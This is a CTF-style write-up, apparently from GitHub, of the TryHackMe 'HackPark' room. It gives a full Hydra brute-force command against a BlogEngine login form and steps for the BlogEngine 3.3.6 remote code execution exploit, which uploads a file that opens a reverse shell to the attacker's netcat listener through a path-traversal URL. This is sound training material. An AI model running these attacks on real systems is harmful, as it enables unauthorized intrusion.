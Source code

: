 # THM-HackPark
https://tryhackme.com/room/hackpark

I did this as a part of the Offensive Pentesting Learning Path

## Task 1
### Whats the name of the clown displayed on the homepage?
Open the ip adress in a browser.<br>
Download the image of the clown and use Google to serch for that image.

## Task 2
### What request type is the Windows website login form using?
Use Developer Tools and Network Display to see what type of request the form is making.

### Guess a username, choose a password wordlist and gain credentials to a user account!
The server is using Blog Engine, and the default can be found on [there server](https://blogengine.io)<br>
Now use Burp Suite to se what´s sent during logon to http://IP.ad.dr.es/admin<br>
All new for me was the VIEWSTATE= part used during login.<br>
Copy VIEWSTATE and make a Hydra password attack command<br>
I used:<br>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.19.178 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=97hlUt22e85aQD6CzwY82BVD9mqEeUj7nT8LT5JU%2B%2BHqmx9hzpOsGUGR91TmR1nxGBEc%2BXbGEY5jnb9IKCpEz3Bglz1KZRTTKnK3CGBpxgvWG5XvUReWcC4sWXOKtf8%2BLnAVFpfWtjjuSo%2B2xtGjDmeM1dYU1jcO4yYRw9viAzEkYuYj&__EVENTVALIDATION=BrCmhMtOml%2FrMjoO4%2F6vd%2FMu2F494JfLYNvR4pgYfFAnV4tn53%2FQCuTdGS3fLwNE%2F1IPWuy1PeHKg2N1AUtiYffQYrtYHZoRLEYUsCj9PnBUB7yLFz8JOV6qIyYJVALgjx8rWK7eXPE9fFkUWC6NeNdq322T%2B6G8dezO855lYGCZFepG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv

(hydra -l user -P wordlist IP_ADDR http-post-form-type login-URI-and-return-Url "VIEWSTATE" modify UserName=^USER^ and Password=^PASS^, end with "error command" and -vv (verbose))

login: admin   password: 1qa*****

## Task 3
### Now you have logged into the website, are you able to identify the version of the BlogEngine?
Login to the admin panel and click About to find the version.
### What is the CVE?
Search for BlogEngine 3.3.6 using [Exploit-db](https://www.exploit-db.com/)<br>
Look for a Remote Code Execution
### Using the public exploit, gain initial access to the server.
Download the exploit and save it as PostView.ascx.<br>
Change System.Net.Sockets.TcpClient("10.10.10.20", 4445) to mach the IP & Port you use in NC.
Run nc -lvnp 4445 on you attackbox<br>
Upload the PostView.ascx-file to the blog by opening a blog entry, click the foder icon and upload the file.<br>
Then run the exploit by accessing this url: http://IP_ADDR/?theme=../../App_Data/files<br>
Now there should be a connection to you nc.

### Who is the webserver running as?
run whoami in the reverse shell console

To be continued...
